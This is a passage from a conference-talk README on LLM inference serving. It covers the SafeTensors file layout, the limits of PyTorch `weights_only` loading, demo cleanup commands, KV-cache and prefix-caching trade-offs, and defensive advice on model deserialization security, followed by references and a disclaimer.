   ┏━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
   ┃  Byte Range ┃ Segment                 ┃ Description & Technical Role                     ┃
   ┡━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
   │       0 - 7 │ Header Length (8 bytes) │ Little-endian Unsigned 64-bit Integer (uint64)   │
   │             │                         │ (Value: 192 bytes)                               │
   │     8 - 199 │ Metadata (JSON)         │ Strict tensor schemas (dtype, shape, offset      │
   │             │                         │ pointers in JavaScript Object Notation / JSON)   │
   │ 200 - 98503 │ Raw Binary Buffers      │ Continuous float data mapped directly via        │
   │             │                         │ Operating System (OS) memory-mapped files (mmap) │
   └─────────────┴─────────────────────────┴──────────────────────────────────────────────────┘
   ```

> [!IMPORTANT]
> **Production Best Practice: Why `weights_only=True` Is Not a Complete Substitute for SafeTensors**
> Although PyTorch 2.6+ defaults to `torch.load(..., weights_only=True)` to restrict the unpickler to basic tensor types, `weights_only=True` still relies on a restricted `pickle` parser (which was affected by a critical Remote Code Execution bypass in PyTorch `< 2.6.0` tracked as `CVE-2025-32434` [[24]](#ref-24)) and does not provide the contiguous offset structure required for zero-copy `mmap` loading. In addition, developers frequently set `weights_only=False` to work around `Unsupported global` errors when loading older third-party checkpoints. Requiring **SafeTensors** [[14]](#ref-14) in Continuous Integration and Continuous Deployment (CI/CD) pipelines removes `pickle` deserialization from the model loading path altogether.

---

### Step 3: Workspace Teardown and Artifact Cleanup

After completing the exercises, clean up the generated checkpoint files (`vulnerable_model.bin` and `safe_model.safetensors`), canary file (`HACKED_DEMO_CANARY.txt`), and Python cache directories (`__pycache__`):

#### Option A: Linux and macOS (Bash)

```bash {"id":"04-cleanup-unix","name":"cleanup-unix"}
# Remove generated demo checkpoints and canary files (preserves .venv)
./cleanup.sh
```

#### Option B: Windows (PowerShell)

```powershell {"id":"04-cleanup-windows","name":"cleanup-windows"}
# Remove generated demo checkpoints and canary files (preserves .venv)
.\cleanup.ps1
```

#### Option C: GNU Make Shortcut (Linux and macOS)

```bash {"id":"04-cleanup-make","name":"cleanup-make"}
# Clean up demo artifacts via the Makefile cleanup target
make cleanup
```

#### Option D: Complete Environment Teardown (Including `.venv`)

To remove the `.venv` virtual environment along with all generated files, pass `--all` (or run `make cleanup-all`):

```bash {"id":"04-cleanup-all","name":"cleanup-all"}
# Full teardown removing demo artifacts and the .venv virtual environment
./cleanup.sh --all
```

---

## 🧠 Key Takeaways

- **Autoregressive Decoding Is Constrained by Memory Bandwidth:** While parallel prompt prefill is compute-bound, sequential token generation is memory-bandwidth-bound because model weights and Key-Value (KV) caches must be read across the memory bus at every decode step [[1]](#ref-1), [[2]](#ref-2), [[4]](#ref-4).
- **Automatic Prefix Caching Reuses KV Projections Across Turns:** Storing KV states in non-contiguous blocks (**PagedAttention** [[6]](#ref-6)) and indexing shared prompt prefixes in a **Radix Tree** [[7]](#ref-7) avoids recomputing shared system prompts across multi-turn and multi-user requests, reducing Time-To-First-Token (TTFT).
- **Serialization Format Choice Impacts Host Security:** Legacy PyTorch `.bin` and `.pt` archives can execute `pickle` opcodes (`__reduce__()`) during `torch.load()` [[12]](#ref-12), [[13]](#ref-13), [[22]](#ref-22), [[23]](#ref-23). Using **SafeTensors** [[14]](#ref-14) restricts the file structure to a static JSON header and raw numerical byte buffers that can be memory-mapped via `mmap()`.
- **Cluster Load Balancing Must Account for KV State:** Scaling LLM inference across Kubernetes pods benefits from prefix-aware routing via the **Kubernetes Gateway API Inference Extension** [[17]](#ref-17) so requests are directed to replicas holding warm KV caches and loaded **LoRA** adapters [[18]](#ref-18), [[19]](#ref-19).

---

## ⚠️ Architectural Limitations and Trade-offs

This section outlines practical operational constraints and mitigation strategies when applying these patterns in production environments:

### 1. High-Bandwidth Memory (HBM) Capacity Limits and Cache Eviction

Retaining cached Key-Value (KV) blocks across concurrent sessions consumes accelerator memory [[4]](#ref-4), [[6]](#ref-6).

- **The Constraint:** In multi-tenant deployments with many distinct system prompts or large RAG contexts, cached prefix blocks compete with active batch allocations for finite GPU HBM. When HBM fills up, Least Recently Used (LRU) eviction policies discard cached blocks, requiring subsequent requests to recompute prefill projections.
- **Mitigation Strategy:**
  - **Hierarchical KV Offloading:** Configure the serving engine to offload evicted KV blocks from GPU HBM to host CPU DRAM or local Non-Volatile Memory Express (NVMe) storage, transferring them back over Peripheral Component Interconnect Express (PCIe) or NVLink interconnects when needed rather than recomputing prefill FLOPs [[6]](#ref-6), [[7]](#ref-7).
  - **Prefix-Aware Replica Partitioning:** Use the [Kubernetes Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/) Endpoint Picker (EPP) [[17]](#ref-17) to route specific tenant prefixes to designated subsets of `InferencePool` pods rather than caching every prefix on every replica.

### 2. Prefix Cache Invalidation from Dynamic Prompt Prefixes

Automatic Prefix Caching requires exact token-sequence matches starting from index 0 [[6]](#ref-6), [[7]](#ref-7).

- **The Constraint:** Inserting per-request values (such as timestamps or request IDs) near the beginning of a system prompt—or serializing JSON tool schemas with inconsistent key ordering—invalidates the prefix hash for all tokens that follow.
- **Mitigation Strategy:**
  - **Deterministic Schema Serialization:** Sort dictionary keys (`json.dumps(..., sort_keys=True)`) when formatting tool definitions into prompts.
  - **Suffix Placement for Dynamic Context:** Append volatile per-request metadata at the end of the prompt immediately before the user message.

### 3. Shared Weight Pointers During SafeTensors Export

Because SafeTensors assigns each tensor name to a distinct byte range `[BEGIN, END]`, raw tensor dictionaries cannot contain aliased memory pointers [[14]](#ref-14).

- **The Constraint:** Models with tied weights (for example, sharing the underlying storage buffer between `model.embed_tokens.weight` and `lm_head.weight`) raise a shared-tensor error if saved directly via `safetensors.torch.save_file(model.state_dict(), ...)`.
- **Mitigation Strategy:**
  - **Model-Aware Export Functions:** Use `safetensors.torch.save_model(model, filename)` [[14]](#ref-14), which detects shared storage pointers, writes the tensor bytes once, and records the tied parameter relationship in the JSON metadata header.

### 4. Deserialization Safety vs. Weight-Level Backdoors and Runtime Prompt Injection

SafeTensors addresses file deserialization within a broader security model [[10]](#ref-10), [[14]](#ref-14).

- **The Constraint:** SafeTensors prevents arbitrary code execution when loading a weight file (mitigating CWE-502 [[13]](#ref-13)). It does not inspect the behavior of the numerical weights themselves—a `.safetensors` file can still hold poisoned or fine-tuned backdoor weights (**OWASP LLM04** [[10]](#ref-10)), and the running model remains exposed to runtime indirect prompt injection (**OWASP LLM01** [[10]](#ref-10), [[11]](#ref-11)) and unguarded tool execution (**OWASP LLM06** [[10]](#ref-10)).
- **Mitigation Strategy:**
  - **Cryptographic Provenance Verification:** Verify model SHA-256 digests and build attestations using [Sigstore Cosign](https://docs.sigstore.dev/) [[15]](#ref-15) and [SLSA](https://slsa.dev/) [[16]](#ref-16) prior to deployment.
  - **Runtime Sandboxing:** Execute model-invoked tools inside isolated sandboxes with explicit network egress policies and least-privilege credentials.

---

## 📚 References

1. <a id="ref-1"></a>**Williams, S., Waterman, A., & Patterson, D. (2009).** *Roofline: An Insightful Visual Performance Model for Multicore Architectures.* Communications of the ACM, 52(4), 65–76. [https://doi.org/10.1145/1498765.1498785](https://doi.org/10.1145/1498765.1498785)
2. <a id="ref-2"></a>**Gholami, A., Yao, Z., Kim, S., Hooper, C., Mahoney, M. W., & Keutzer, K. (2024).** *AI and Memory Wall.* IEEE Micro, 44(3), 33–39. [https://arxiv.org/abs/2403.14123](https://arxiv.org/abs/2403.14123)
3. <a id="ref-3"></a>**Vaswani, A., Shazeer, N., Parmar, N., Uszkoreit, J., Jones, L., Gomez, A. N., Kaiser, Ł., & Polosukhin, I. (2017).** *Attention Is All You Need.* Advances in Neural Information Processing Systems (NeurIPS), 30. [https://arxiv.org/abs/1706.03762](https://arxiv.org/abs/1706.03762)
4. <a id="ref-4"></a>**Pope, R., Douglas, S., Chowdhery, A., Devlin, J., Bradbury, J., Heek, J., Xiao, K., Agrawal, S., & Dean, J. (2023).** *Efficiently Scaling Transformer Inference.* Proceedings of Machine Learning and Systems (MLSys), 5. [https://arxiv.org/abs/2211.05102](https://arxiv.org/abs/2211.05102)
5. <a id="ref-5"></a>**Zhao, W. X., Zhou, K., Li, J., Tang, T., Wang, X., Hou, Y., Min, Y., et al. (2024).** *A Survey of Large Language Models.* arXiv preprint arXiv:2303.18223. [https://arxiv.org/abs/2303.18223](https://arxiv.org/abs/2303.18223)
6. <a id="ref-6"></a>**Kwon, W., Li, Z., Zhuang, S., Sheng, Y., Zheng, L., Yu, C. H., Gonzalez, J., Zhang, H., & Stoica, I. (2023).** *Efficient Memory Management for Large Language Model Serving with PagedAttention.* Proceedings of the 29th Symposium on Operating Systems Principles (ACM SOSP '23), 611–626. [https://doi.org/10.1145/3600006.3613165](https://doi.org/10.1145/3600006.3613165)
7. <a id="ref-7"></a>**Zheng, L., Yin, L., Xie, Z., Sun, C., Huang, J., Yu, C. H., Cao, S., Kozyrakis, C., Stoica, I., Gonzalez, J. E., Barrett, C., & Sheng, Y. (2024).** *SGLang: Efficient Execution of Structured Language Model Programs (RadixAttention).* Advances in Neural Information Processing Systems (NeurIPS). [https://arxiv.org/abs/2312.07104](https://arxiv.org/abs/2312.07104)
8. <a id="ref-8"></a>**Gemma Team, Google DeepMind. (2024).** *Gemma 2: Improving Open Language Models at a Practical Size.* Technical Report, arXiv:2408.00118. [https://arxiv.org/abs/2408.00118](https://arxiv.org/abs/2408.00118)
9. <a id="ref-9"></a>**Ainslie, J., Lee-Thorp, J., de Jong, M., Zemlyanskiy, Y., Lebrón, F., & Sanghai, S. (2023).** *GQA: Training Generalized Multi-Query Transformer Models from Multi-Head Checkpoints.* Proceedings of the 2023 Conference on Empirical Methods in Natural Language Processing (EMNLP). [https://arxiv.org/abs/2305.13245](https://arxiv.org/abs/2305.13245)
10. <a id="ref-10"></a>**OWASP Foundation. (2025).** *OWASP Top 10 for Large Language Model Applications and Generative AI Security Project (LLM01:2025 Prompt Injection, LLM03:2025 Supply Chain, LLM04:2025 Data and Model Poisoning, LLM06:2025 Excessive Agency).* [https://genai.owasp.org/llm-top-10/](https://genai.owasp.org/llm-top-10/)
11. <a id="ref-11"></a>**Greshake, K., Abdelnabi, S., Mishra, S., Endres, C., Holz, T., & Fritz, M. (2023).** *Not What You've Signed Up For: Compromising Real-World LLM-Integrated Applications with Indirect Prompt Injection.* Proceedings of the 16th ACM Workshop on Artificial Intelligence and Security (AISec '23). [https://arxiv.org/abs/2302.12173](https://arxiv.org/abs/2302.12173)
12. <a id="ref-12"></a>**Python Software Foundation.** *`pickle` — Python Object Serialization and the `__reduce__()` Protocol.* Python Standard Library Documentation. [https://docs.python.org/3/library/pickle.html#object.__reduce__](https://docs.python.org/3/library/pickle.html#object.__reduce__)
13. <a id="ref-13"></a>**MITRE Corporation.** *CWE-502: Deserialization of Untrusted Data.* Common Weakness Enumeration Specification. [https://cwe.mitre.org/data/definitions/502.html](https://cwe.mitre.org/data/definitions/502.html)
14. <a id="ref-14"></a>**Hugging Face.** *SafeTensors: Simple, Safe Way to Store and Distribute Tensors (Binary Format & Zero-Copy Specification).* [https://huggingface.co/docs/safetensors/index](https://huggingface.co/docs/safetensors/index)
15. <a id="ref-15"></a>**Sigstore Project (Linux Foundation).** *Cosign: Container and Artifact Signing, Verification, and Storage in an OCI Registry.* [https://docs.sigstore.dev/cosign/overview/](https://docs.sigstore.dev/cosign/overview/)
16. <a id="ref-16"></a>**OpenSSF (Open Source Security Foundation).** *SLSA: Supply-chain Levels for Software Artifacts Specification.* [https://slsa.dev/](https://slsa.dev/)
17. <a id="ref-17"></a>**Kubernetes SIG Network. (2025).** *Kubernetes Gateway API Inference Extension (`InferencePool` & Endpoint Picker Routing Architecture).* [https://gateway-api-inference-extension.sigs.k8s.io/](https://gateway-api-inference-extension.sigs.k8s.io/)
18. <a id="ref-18"></a>**Hu, E. J., Shen, Y., Wallis, P., Allen-Zhu, Z., Li, Y., Wang, S., Wang, L., & Chen, W. (2022).** *LoRA: Low-Rank Adaptation of Large Language Models.* International Conference on Learning Representations (ICLR). [https://arxiv.org/abs/2106.09685](https://arxiv.org/abs/2106.09685)
19. <a id="ref-19"></a>**Sheng, Y., Cao, S., Li, D., Hooper, C., Lee, N., Yang, S., Chou, C., Zhu, B., Zheng, L., Keutzer, K., Gonzalez, J. E., & Stoica, I. (2024).** *S-LoRA: Serving Thousands of Concurrent LoRA Adapters.* Proceedings of Machine Learning and Systems (MLSys), 6. [https://arxiv.org/abs/2311.03285](https://arxiv.org/abs/2311.03285)
20. <a id="ref-20"></a>**Protect AI.** *ModelScan: Protection Against Model Serialization Attacks.* Open-Source Security Scanner Documentation. [https://github.com/protectai/modelscan](https://github.com/protectai/modelscan)
21. <a id="ref-21"></a>**NVIDIA Corporation.** *NVIDIA A100 Tensor Core GPU: Specifications.* Product Datasheet. [https://www.nvidia.com/en-us/data-center/a100/](https://www.nvidia.com/en-us/data-center/a100/)
22. <a id="ref-22"></a>**Sultanik, E. / Trail of Bits. (2021).** *Never a dill moment: Exploiting machine learning pickle files (Fickling Decompiler & Static Analyzer).* Trail of Bits Security Research. [https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/](https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/)
23. <a id="ref-23"></a>**Perekrestenko, D. / JFrog Security Research. (2024).** *Malicious Hugging Face ML Models Silently Backdoor Users' Machines.* JFrog Security Blog. [https://jfrog.com/blog/data-scientists-targeted-by-malicious-hugging-face-ml-models-with-silent-backdoor/](https://jfrog.com/blog/data-scientists-targeted-by-malicious-hugging-face-ml-models-with-silent-backdoor/)
24. <a id="ref-24"></a>**National Vulnerability Database (NVD) / PyTorch Security Advisory. (2025).** *CVE-2025-32434: Remote Code Execution in PyTorch `torch.load` with `weights_only=True` (`GHSA-53q9-r3pm-6pq6`).* [https://nvd.nist.gov/vuln/detail/CVE-2025-32434](https://nvd.nist.gov/vuln/detail/CVE-2025-32434)
25. <a id="ref-25"></a>**Touvron, H., Lavril, T., Izacard, G., Martinet, X., Lachaux, M.-A., Lacroix, T., Rozière, B., et al. (2023).** *LLaMA: Open and Efficient Foundation Language Models.* arXiv preprint arXiv:2302.13971. [https://arxiv.org/abs/2302.13971](https://arxiv.org/abs/2302.13971)

---

## 🎙️ Speaker

### Anmol Krishan Sachdeva

- **Title**: Sr. Solutions Engineer (Platform Engineering) and Hybrid Cloud Architect
- **LinkedIn**: [@greatdevaks](https://www.linkedin.com/in/greatdevaks)
- **Twitter**: [@greatdevaks](https://www.twitter.com/greatdevaks)
- **Sessionize**: [sessionize.com/greatdevaks](http://sessionize.com/greatdevaks)

---

## ⚠️ Disclaimer

- The content and views presented during this session are the author's own and not of any organizations they are associated with or employed at.
- **The code shown in this repository is for illustration and educational purposes only.**
  - It is not production-grade; error handling, security, and scalability are not fully addressed.
  - The Common Weakness Enumeration (CWE-502) [[13]](#ref-13) deserialization exploit demonstration is designed to run safely against local canary targets (`HACKED_DEMO_CANARY.txt`) and must never be executed against unauthorized systems or production systems.
